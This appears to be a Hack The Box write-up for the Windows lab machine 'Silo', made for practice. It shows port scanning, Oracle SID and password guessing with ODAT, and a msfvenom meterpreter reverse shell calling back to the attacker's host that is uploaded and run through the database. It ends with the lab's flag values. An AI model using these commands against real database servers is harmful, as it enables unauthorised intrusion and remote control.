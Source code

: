 ```yaml
---
layout: post
title:  "HTB Silo Windows"
description : Tools and techniques used, ODAT, msfvenom
tags: HTB, oracle
---
```


## Recon
```ruby
Basic_10.10.10.82.nmap 10.10.10.82
Nmap scan report for 10.10.10.82
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
49160/tcp open oracle-tns Oracle TNS listener (requires service name)
49161/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
## Exploitation: Oracle Database Attacking Tool
We gonna use install ODAT to query the Oracle database and find away to exploit it
```javascript
https://github.com/quentinhardy/odat
cd odat/
git submodule init
git submodule update
sudo apt-get install libaio1 python-dev alien python-pip
```
Get instant client basic, sdk (devel) and sqlplus from the Oracle web site:
```ruby
X64: http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html
```
Generate DEB packages from rpm packages
```ruby
alian --to-deb *.rpm
```
Install deb packages
```ruby
dpkg -i *.deb
```
Finally we need to edit our /etc/profile and put the following PATH lines
```ruby
export ORACLE_HOME=/usr/lib/oracle/19.3/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=$ORACLE_HOME/bin:$PATH
```
Sometimes when try to run oday.py will throw an error saying that cx_Oracle dependency module is missing. If that happens

```ruby
pip2 install cx_Oracle
```
![odat](https://lh3.googleusercontent.com/kp-mH-gMcOqg7zPRt9fMAl0nqg5PlOSgH9jAj25Uy9r_JYxmacaflyYhiksT-r9H3W4HF9UW-dhM0EYDhIl2MloofU2DtIIxBpdDkcDfM6TZjFf3WOvI6k_HO9Lx60QYgXlymkb0G1idb0NS2FKWCVaHpV4WubO1EO3B16RhgNt5W6QJwNvvK5kjtWzb3Rc8RcNqJ6PV2UgCtF27D838agHqTUnc7Mrrj9qdXRWMMzDBgiuiRrYKRQWYbZ7MWReTKZSKG1-FvMv1aYusvvt0sbO5pj3cV3GlQWa1R2fXTI1i7UVfr8MKWiUaGeIRSTJ4NUyI1LUKFot6GOK3c8LTFChjWD3WdyQhcJZXj_WqZoaVOWLtbhae11dglP3jOM5fkC-cEMDnYbKDHS7pFaho7YlkPvbi7FV60DU-3Xs43q9cl3TpsHKEb916ubQJmmiX7uwzHUGkunQZjaYaB3aTREp6fFxAAkvQTPqj6VtDbzG8FTJjt9S70Np_BAuIVBAyutdVSg56Qj941M4PVa9crufsyc7zDIs9SeBENvvXjA3hbVHzY-aBS4zSQEi7axL6DTDhmdh5tCdNbrPw-RYfIM_YtDzDOUrAJAJo-DONRVpThHWSBE5UMoLXs47nPxkb1jlGmpLZY2Cf8Z50MiAg9n32scPB9pVf8A1N_S977ik43jU9BPdH8Gs=w711-h348-no)


We start odat and we use the module **sidguesser**
```javascript
python odat.py sidguesser -s 10.10.10.82 -p 1521
```
![](https://lh3.googleusercontent.com/hEq9szP50RKA_3RhEiM9xws66An6o2vLUtWFSvI9EaFKAPLeME7i-GHA5VewAYrYPwJdXvN2cu9HXMDA0NANeO4EdZqTO5-Cxjz05dgMZWTEZoexwDlIoen6SgxJoFAW-u-0XqAFIV08T_FV_OV0_JGTtYYfEl3uUmHF0n6GvZnURdYs5JJ0jBIm8Nlx6fcSkQGDMFD_v4YPruTzrcjV_VexGSGIrIWJ6fQJVdL5LdN_MuWXABgFfrwalDwXgYki87PqGGY5Yq0PSL8XNtFyZ_DWdr6Ji96hOFE3hw5_81cEuPJ0nazKcrmTn5VetGD4coaOdNV-nhEXFSOaiBQp2CoHqZJtMT22Nx-Tnleij0sE0phWt5KlbtufJRIbAY4-y5WuYd-W-BmLWzVM7TbLxBZtfOenzqjr-gICND4THCrE6FhxCl2SgumXE4ktvRRJcFF5oF5BggQVta3ARwUgjyzHI7nEZMeY7jxNKg8sNeWfS1M8qNuwa9VxfBiRRPR7C7r7K0MeBJwrrlTiIKPxUS-hdvG1LE21wW5zsWeGKwKCnSGFe-XEAEfUE2jcGUpyI0UF6BraPNx0043g-U5yizWaDweFyl0xIn8vJD6mOeZbLgYsxEmOnSSkDFi1aG7qli-iZpgnaclN9t2NLmjG_omUa8WRj0aMBjhRygZ9ZJo_TvEyNesml4s=w590-h461-no)

Sidguesser returns two potential valid SID: **XE,XEXDB**
![](https://lh3.googleusercontent.com/h3yksJJBLdywJSs0XC-D4VtOi6Z9pZuwvefCbY44hZb1B3o3zeZQPv4Oxjuk6-y_KRrACC1BRdDkM9ly5M3mB9pKnxNrEihlyMwo-xwYGOXezUbtXrJjP4OvX8arAaZyKo52votOF_dJIkKcn_jA5gofm49l7UNt0ojOupsPmm8Hxxpf8-_aG4HF1bHKZnXE4txvB9ziIXOhze0IKhVQOMOlkRK1P6d35X4gR4t-7R1BEIuXFe2ddk0bCQYkcN64NMWVZNU4WRjrBL5KAxcakCjjaA68M4JLO2q7XeOOj_RskZsMX7Uz2luqUe-qAasA7Up8K3t1rr5yZDWeG2_mNomNX56EpOBHW8w5qAWYjQT_EbWOj64tzWEcACu23pecqQYEQw0K01l7IFHs6oU88OyrSta-B_KPYg7OOheH-JGV2LQvYite3zi6CDoTgU8cP98dTZrvpVBipIkrtlmF88G6RsNnsualTZb94BLIPiVw94Oropz9XlzHivG0QuNHOxkcIaRKIeLSfSFRmKxuukx3npQ2ZnNsliZO6XoWkCQLeXhKta1Glf9wjDCvfmhA0F5ismu1RtljeEMKzqnz_WB_sJcnp-6vKSTSMnn9Laxa9QCoOkvAXv3W6qRNFMNmLWyOFyxmkvILHxl6VABeYijVOhcDAas3IjgYN-ZUbbnVEsfJlVM-ZjE=w913-h289-no)

Time to get some creds by usin passwordguesser
```javascript
python odat.py passwordguesser -s 10.10.10.82 -d XE
```
```ruby
Valid credentials found: scott/tiger.
```
![](9https://lh3.googleusercontent.com/SqWEOd29qiiLEfqNhbm6GArlECaBiC7tjlbtjcsHQWmxNjOBPvLqgVkp-b9XFZcmZYTUFZVt_xVdxRFY98PuwPW02G8JjVlS5ZwpmBP6hxkhCi5yxw4-EEcwZpAaBRNXaAs4n8nHkb6BI6phb1ma79ak8el3O_Xu2BzMzUXgidNR-4WVnj4pE9zqr_Plu-6r3A8bBAtsq4lRGj2kqFZEfd8oME19tDW-qH9jkhrfvgeWomlotbqdpRYdW_rZVih9P007__BtsKIdQ7an6TQT3JZc0J_uoK7zDF40A32jgMUwN9R4Dph1M-wn-qdRQ_A3XkWtyVvKyl6o7xVJje-Z63nDb26ADPUfG4oQr4FVPqYXrQsgPhV9U2hMessEU4JcdAWUj0Mzh1qOfZKoDS1mg4r-dinuI-_dMVIV2SyuRR6pbqzG7T3T8P9PQYbctWuDF0uPGOXe4-V4l6n2W2YPSzhSnnyP-UNORVFOAxRy4M6ALuktnRHx4yz2GAECy5y6PLr6dHTNrWYMUnE7QRfcXfxeYtyS5n0pxLUwb7N74GOdA0vt3Rrr9zUjh-TJoLM3pns6b-EakA7cD_DFDY3b9VCHxeqnW6GoZhGAvyiKUH7KLJqt4kqqHX-YVcN6hrCRmVBroUMXo76sIaNOcWGRKjMvIngIBndjp4QLfR-3QUxV1DhC4Zhj8uo=w975-h232-no)

We gonna use the utlfile module to upload a reverse shell using msfvenom
```ruby
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=9999 -f exe -o evil.exe
python odat.py utlfile --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --putFile /temp evil.exe /root/
Desktop/evil.exe
```

Then we gonna exec our shell using the **externaltable** module from odat
python odat.py externaltable --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --exec /temp evil.exe

![](https://lh3.googleusercontent.com/-Krzjvbkc06_U7GE4sEFeTFClz5_kt8Ie7Hi0LStMElArvHcNhpuZtbDkGu-nadCXMPh_rLKZr58iGW9-oW1Ui5x-D2X-JRvLWbT6vxnYZe1BuUubrIG7pLrFBdEig1t6_mVRyRVVnNe7RnTgA37Quwq4TnElNDkbd_ESNCqZMZqQexS1YoURhWjKweTRfvKcCtLlJDnBxqLzUQBml82UDxszENpoOhIqYrXZnTWRPmIPCrp0SwYykZBuEmNS5dz8HDm4UHX1msHIJ3IRIAEZlIr6es14LvJYKE7NDWC0M1_FwlNgxM1aBzG_CrzJw5ibLN5a2CdM76WJ_aBsalnXKGu-p0mDhImhTwdScCNBaODY-6UsZenOipkt430ODG5KQkD6QAWBVJiWF-dH2IjP5gyfl1luPudYs2zLrL6El0w7CsvsSreK7zXyrh0jgkt8xFwGLSlJ1zADEqEJrmQjdHv9Bn1xRPkCX1fYANyZuT1mO6QTAQW-JX1qcxIWDO887zFw-O7rvgV-zGFBrAa8_JjBnIIpxMKWvaqW2ZuO865oPaxqWRo--eo0poyYxOt5frVK58F7mYrMeIfMr4U4t1l7cu7GBvrgze_iDA1uD1KIOLrmHnVrFjT5jH05XvZmoOmCczrnhijMLhsYYoo_blP-VNrJ2wpy3vPD04PK775cAw2NSAxXu4=w1265-h97-no)

![](https://lh3.googleusercontent.com/pV9ug_tfK2HYY-T-BDqI7nH00U4_nbGp4FbrbUNdFdij8xqFrI-Npm3kjOWBJ2i4se3wVUSsTZXS7Gp-Dmkf-VXaTPKQ-JXSGlfoDHOcMrDLM0-25F4M94r2pxf_VZpC52ijsA8QL1x6qNXgUGq8mX-XEfRY-PNU_SRoRBOugvTdv-Jwd7wPdSTjwVJOnCKvie-cDIhMKkivsI3bMO_4yc2L7_MighBeG-66DUXt3wQC8N4l4COTUf_3QpsBHXhqc7C2hcLJq5Xb72LJXAOU-v_rY5rVn2FLNcCqIE2Xi7fx79Vd0p3s1A0bWkeZHC1Al4ylneTEGVDvRtpSY-XpX2M1bK0g-rTLBlk6r34fgtClw3bJAuknHdDQnwQf_bBTd_NGruquONYqdzrfQGrW1xX2OoP2wJjBPLD2UaajZ-c_D0NCQo_s_LkJYfT-C_vFz0Y8Y_UG5dWglkn1kBBm3PAuXg0qcJgs-oqqnN66ECPQUL4oa1TOM5k6oRlu-jH8CMW7oKqbYZLdosWPP4gN8-HzvocD6qbc4Rto6p-FBe6mRcnwnzdIsS82UzY2zirGwVVjUfb3MUK3Fg2ttpgh2-l3BvZlh0rQ4WlGROG5NMr1t1nfCh5bnjhM80ahdGxn-GP5K8eSN87hNMF5Gvr7O91C8zXhS4PlCnBJZ_DOzg2G5FwPpyMs8PI=w1157-h80-no)

Finally we got root shell.

![](https://lh3.googleusercontent.com/YEib8--SF8_5x82BeuFNISJXM1Bu2nkY3YID88KZJ-ASnDqkv-0CV9Kq1CzppMB1ClBhEKvYZtSd2TxSSpRe_fucOD7HSvdLYbMpgXDIXclu4AyprmILXdGZ5Ld8Ts-nlkXLoAt4p43nDPNOhDGvofUL8YcFt466s2dFdMUWibdAS6K8G7HaqwoGjAOFDl0Q8WCFUFZOvpF13MU1g6NLQPwLeyY_F2Sortd389ziUue459wPSfPulKuTv1tgIBX1-vH6uams9C9f7goPagNsaxJqpNqhuNfmfVgxievovLzzHVdqR9_phE1Vil8M2HCbHKASmXoRJz_Yw_a9XEfuyKXRiEkUVGzbw_To4GCW8U13kD9LSHGpJKXvR2AjQo5dohAwmhRsvrpJ6uqcjlCA2pVFulpmOFeUboz_STHeutqitH154hghJAz47YSo8HRwxg2XUgcxgiDFJyYZfP5s3UY6WesWhNO_yAOv9j2D9OFwUZyxw7j1bENy72e4Rd_Ch9neRyqIea7Vke2ysOzAqj9JJdYKqzPpwYWXtx4WnHHmXU8NCQP3stMXaJwa0orkGqk504IvTR-mtT981vETpcTUrucc6tAK7x5adTHwpal_0PrC9l8mlM5369mNWp7LUnoM0KgwD2Et6NKGxyLH5KBgaClT1_FVKuB3k91Vt6Hdy1GIWdeW6YE=w724-h159-no)

# FLAGS
```shell
ROOT : "cd39ea0af657a495e33bc59c7836faf6"
USER : "92ede778a1cc8d27cb6623055c331617"
```



